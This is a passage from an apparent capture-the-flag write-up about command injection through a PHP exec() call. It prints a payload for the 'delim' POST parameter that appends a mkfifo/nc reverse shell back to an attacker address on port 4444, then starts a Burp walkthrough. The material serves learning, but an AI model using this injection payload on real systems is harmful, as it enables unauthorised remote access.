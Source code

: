 The trick here is that we can fool the `exec()` function by adding `;` to the end of the argument and add more bash commands in order for `exec()`<br>
to execute them. I that point, I was mostly thinking about adding a reverse shell right in the `$_POST['delim']` variable like so : 

`$_POST['delim']` =  `space;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f` <br>

### Getting a Reversee Shell - POST /logs .php
---

So now let's try this within Burp by capturing the `POST` request to `/logs.php` by clicking the `Submit` button.<br>

![Logs Page](img/logs_page.png) <br>